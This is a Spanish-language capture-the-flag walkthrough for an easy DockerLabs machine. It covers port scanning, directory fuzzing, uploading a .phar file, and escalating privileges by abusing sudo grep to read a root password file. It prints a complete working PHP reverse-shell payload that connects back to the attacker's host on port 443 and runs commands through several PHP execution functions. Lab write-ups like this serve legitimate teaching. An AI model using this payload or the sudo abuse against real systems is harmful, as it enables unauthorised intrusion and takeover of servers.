 Maquina: DockerLabs

Autor: El Pinguino de Mario

Dificultad: Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

Accederemos a la página web

172.17.0.2

Aplicar Fuzzing para descubrir rutas y archivos con extensiones

gobuster dir -t 150 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

Accedemos al archivo machine.php y descubrimos una página web que permite la subida de archivos

Intentamos subir un archivo que contenga código PHP para ejecutar comandos a nivel del sistema

Creamos un archivo llamado pwned.phar que incluye el siguiente código, lo cual nos permite ejecutar comandos del sistema al enviar un parámetro llamado cmd

    /*<?php /**/
      @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      if(!empty($dis)){
        $dis=preg_replace('/[, ]+/',',',$dis);
        $dis=explode(',',$dis);
        $dis=array_map('trim',$dis);
      }else{
        $dis=array();
      }
      
    $ipaddr='172.17.0.1';
    $port=443;

    if(!function_exists('WrisYTZ')){
      function WrisYTZ($c){
        global $dis;
        
      if (FALSE !== stristr(PHP_OS, 'win' )) {
        $c=$c." 2>&1\n";
      }
      $gPpr='is_callable';
      $WEBa='in_array';
      
      if($gPpr('passthru')&&!$WEBa('passthru',$dis)){
        ob_start();
        passthru($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      if($gPpr('system')&&!$WEBa('system',$dis)){
        ob_start();
        system($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      if($gPpr('shell_exec')&&!$WEBa('shell_exec',$dis)){
        $o=`$c`;
      }else
      if($gPpr('popen')&&!$WEBa('popen',$dis)){
        $fp=popen($c,'r');
        $o=NULL;
        if(is_resource($fp)){
          while(!feof($fp)){
            $o.=fread($fp,1024);
          }
        }
        @pclose($fp);
      }else
      if($gPpr('proc_open')&&!$WEBa('proc_open',$dis)){
        $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);
        $o=NULL;
        while(!feof($pipes[1])){
          $o.=fread($pipes[1],1024);
        }
        @proc_close($handle);
      }else
      if($gPpr('exec')&&!$WEBa('exec',$dis)){
        $o=array();
        exec($c,$o);
        $o=join(chr(10),$o).chr(10);
      }else
      {
        $o=0;
      }
    
        return $o;
      }
    }
    $nofuncs='no exec functions';
    if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){
      $s=@fsockopen("tcp://172.17.0.1",$port);
      while($c=fread($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=WrisYTZ(substr($c,0,-1));
          if($out===false){
            fwrite($s,$nofuncs);
            break;
          }
        }
        fwrite($s,$out);
      }
      fclose($s);
    }else{
      $s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
      @socket_connect($s,$ipaddr,$port);
      @socket_write($s,"socket_create");
      while($c=@socket_read($s,2048)){
        $out = '';
        if(substr($c,0,3) == 'cd '){
          chdir(substr($c,3,-1));
        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
          break;
        }else{
          $out=WrisYTZ(substr($c,0,-1));
          if($out===false){
            @socket_write($s,$nofuncs);
            break;
          }
        }
        @socket_write($s,$out,strlen($out));
      }
      @socket_close($s);
}

Subimos el archivo .phar y confirmaremos que se ha cargado correctamente

172.17.0.2/upload.php

Ahora, necesitamos enviar una shell inversa a nuestra máquina atacante

En nuestra máquina atacante, nos ponemos a la escucha con Netcat en el puerto 443 utilizando el siguiente comando:

nc -nvlp 443

hacemos click en el archivo para abrirlo

Al ejecutar esto, obtendremos una shell inversa en nuestra máquina atacante. Así, estaremos dentro del sistema

Al ejecutar sudo -l, veremos que podemos ejecutar los binarios /usr/bin/cut y /usr/bin/grep como usuario root sin necesidad de proporcionar una contraseña

Si realizamos una búsqueda de archivos .txt en el sistema utilizando el comando:

find / *.txt 2>/dev/null

veremos que hay un archivo en /opt/ llamado nota.txt

Al revisar el contenido de ese archivo, encontramos el siguiente mensaje:

Protege la clave de root, se encuentra en su directorio /root/clave.txt. Menos mal que nadie tiene permisos para acceder a ella

tenemos permisos para ejecutar los binarios grep y cut. Aprovecharemos estos permisos para leer el archivo /root/clave.txt de la siguiente manera:

sudo /usr/bin/grep '' /root/clave.txt

Leemos el archivo, encontramos una posible contraseña: dockerlabsmolamogollon123.

Cambiamos al usuario root y utilizamos la contraseña encontrada

whoami
